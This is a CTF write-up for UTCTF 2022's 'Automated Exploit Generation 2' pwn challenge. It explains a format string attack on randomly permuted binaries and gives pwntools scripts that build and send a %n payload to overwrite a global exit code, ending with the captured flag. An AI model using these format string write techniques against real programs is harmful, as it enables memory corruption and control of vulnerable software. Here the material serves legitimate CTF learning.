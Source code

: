 ```yaml
---
layout: post
title:  "Automated Exploit Generation 2 - Pwn"
date:   2022-03-15 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Automated Exploit Generation 2
Author: Shotokhan
Description: Exploit of 10 random binaries with the same vulnerability
CTF: UTCTF 2022
Category: Pwn
```

# Task
> Now with printf!

> By Tristan (@trab on discord)
> nc pwn.utctf.live 5002 

# Writeup
If we interact with the server:

```
$ nc pwn.utctf.live 5002 
You will be given 10 randomly generated binaries.
You have 60 seconds to solve each one.
Solve the binary by making it exit with the given exit code
Press enter when you're ready for the first binary.
```

After pressing enter, we're given a small binary in hexdump format. <br>
We copy it in a file ```random_0.hex``` and get the actual ELF with:

```
$ xxd -r random_0.hex > random_0
```

Now, we can guess that the randomly generated binaries are similar among them, the randomness will be in some input-modifying function. <br>
So we analyze the obtained executable file:

```
$ file random_0
random_0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=335c472b5b0059a4d4826b6c1f8218d59e757ff0, for GNU/Linux 3.2.0, not stripped

$ checksec random_0
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

$ ltrace ./random_0 
fgets(AAAAAAAAAAA
"AAAAAAAAAAA\n", 514, 0x7f380aa14800)                                                             = 0x7ffcc61b7380
printf("")                                                                                              = 0
exit(0 <no return ...>
+++ exited (status 0) +++
```

It has some protections enabled, and it basically ```fgets``` at most 514 bytes of data, then performs a ```printf```. <br>
If we decompile it with Ghidra, we can see that the binary performs these actions:

{% highlight c %}
  fgets((char *)&local_218,0x202,stdin);
  permute((long)&local_218);
  printf((char *)&local_218);
  exit(exit_code);
{% endhighlight %}

So, it's clearly the case of a format string attack; our ltrace showed that the printf had a null string as parameter because there is input permutation, which in this case has put a null byte at the start of the buffer. <br>
The ```exit_code``` is a global variable, so the idea is to perform the format string attack to overwrite it with the exit code given alongside the binary. <br> <br>
The ```permute``` function calls 8 permutation sub-functions in random order, for example:

{% highlight c %}
void permute(long param_1)

{
  permute2(param_1);
  permute3(param_1);
  permute6(param_1);
  permute7(param_1);
  permute4(param_1);
  permute1(param_1);
  permute8(param_1);
  permute5(param_1);
  return;
}
{% endhighlight %}

A combination of permutations is still a permutation, so we can get a complete mapping ```position i -> position j``` by executing the program locally many times (we don't need to use angr to solve this task). <br>
The first thing to do is to patch the binary to develop a working exploit, without permutation; so we basically replace the call to ```permute``` in ```main``` with a sequence of NOP instructions. <br>
We save the patched binary into ```random_0_patched``` and developed the exploit for it (it wanted 168 as exit code):

{% highlight python %}
def test_exploit_patched():
    elf = ELF("./random_0_patched")
    context.binary = elf
    addr = elf.symbols['exit_code']
    val = 168
    # target_payload = fmtstr_payload(8, {addr: val})
    target_payload = f"%{val}c%10$n".encode()
    target_payload += b'A' * (16 - len(target_payload))
    target_payload += p64(addr)
    print(target_payload)
    r = elf.process()
    r.sendline(target_payload)
    _exit_code = r.poll(block=True)
    print(_exit_code)
{% endhighlight %}

Now that we have a working exploit, we need a function to get the permutation map, so that the executable will put the characters of the exploit in the right positions. <br>
The permutation map can be obtained very fast by starting the executable a few times, but I went for an easy, non-optimized function:

{% highlight python %}
def get_permutation_map(filename):
    mapping = {}
    for i in range(0x202):
        payload = "_" * i + "A" + "_" * (0x202 - i - 1)
        r = process([filename])
        r.sendline(payload)
        res = r.recv().decode()
        r.close()
        try:
            pos = res.index('A')
            mapping[pos] = i
        except:
            pass
    return mapping
{% endhighlight %}

It's quick and dirty and it obtains just a single mapping for every execution (so, 514 processes for full mapping), but it does the job. <br>
Now we can put the pieces together and test the exploit on the original binary:

{% highlight python %}
def test_exploit():
    filename = "./random_0"
    elf = ELF(filename)
    context.binary = elf
    addr = elf.symbols['exit_code']
    val = 168
    target_payload = f"%{val}c%10$n".encode()
    target_payload += b'A' * (16 - len(target_payload))
    target_payload += p64(addr)
    mapping = get_permutation_map(filename)
    exploit = [b'_' for _ in range(0x202)]
    for i in range(len(target_payload)):
        exploit[mapping[i]] = target_payload[i].to_bytes(1, 'little')
    exploit = b"".join(exploit)
    r = elf.process()
    r.sendline(exploit)
    _exit_code = r.poll(block=True)
    print(_exit_code)
{% endhighlight %}

It's quite slow, but it works; the last thing to do is to automate the interaction with the remote service, to get the binary, decode it, make it executable, get the desired exit code, get the permutation mapping and craft the final exploit, then repeat this for 10 times. An implementation issue is that we have to make sure that the ```fgets``` of a binary reads all our input, otherwise the ```fgets``` of the next binary will read some non-flushed input and the exploit will not work. To overcome this issue, we have to truncate our exploit payload to the minimum length required to perform the format string attack (i.e., we must not add padding to reach 514 bytes).

{% highlight python %}
from pwn import *
import os
import time

...

def get_permutation_map(filename):
    ...

def main():
    r = remote("pwn.utctf.live", 5002)
    r.sendlineafter('binary.\n', '')
    for k in range(10):
        data = r.recvrepeat(2).decode().split('\n\n')
        start = time.time()
        binary = data[0]
        ind = binary.index("00000000:")
        binary = binary[ind:]
        with open("random_bin.hex", 'w') as f:
            f.write(binary)
        os.system("xxd -r random_bin.hex > random_bin")
        os.system("chmod +x random_bin")
        val = int(data[1].split('\n')[1].split(' ')[-1])
        filename = "./random_bin"
        elf = ELF(filename)
        context.binary = elf
        addr = elf.symbols['exit_code']
        target_payload = f"%{val}c%10$n".encode()
        target_payload += b'A' * (16 - len(target_payload))
        target_payload += p64(addr)
        mapping = get_permutation_map(filename)
        exploit = [b'_' for _ in range(0x201)]
        _max = 0
        for i in range(len(target_payload)):
            exploit[mapping[i]] = target_payload[i].to_bytes(1, 'little')
            if mapping[i] > _max:
                _max = mapping[i]
        exploit = b"".join(exploit)[:_max+1]
        elapsed = time.time() - start
        print(f"{exploit = }")
        print(f"{val = }")
        print(f"{elapsed = }")
        r.sendline(exploit)
    r.interactive()
{% endhighlight %}

By running it, we obtain:

```
$ python script.py
...
exploit = b'______________________________________________________________________________________________________________________________________________________________________________________________________A%5c%10$nAAAAAAA_\\@@\x00\x00\x00\x00\x00'
val = 5
elapsed = 8.956268072128296
[*] Switching to interactive mode
Process exited with return code 5
Congrats!
utflag{you_mix_me_right_round_baby_right_round135799835}
```


